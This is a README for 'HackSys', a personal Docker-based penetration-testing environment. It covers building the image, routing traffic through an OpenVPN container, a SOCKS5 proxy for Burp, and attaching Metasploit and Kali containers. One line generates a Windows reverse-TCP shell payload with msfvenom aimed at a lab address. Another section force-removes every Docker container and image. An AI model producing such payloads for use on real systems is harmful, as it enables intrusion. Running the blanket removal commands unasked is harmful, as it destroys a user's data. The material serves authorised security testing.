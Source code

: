 # HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* 3.56GB when built
* Zsh
* Lightweight with several security tools installed
* Development tools installed: Python, Go
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)

## Building

First update your images. Feel free to omit metasploit and/or kali if not desired:

```
docker pull alpine
docker pull metasploitframework/metasploit-framework
docker pull kalilinux/kali-rolling
```

Then build:

```
docker build -t antfie/haksys .
```

## Running 

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/haksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/haksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/haksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
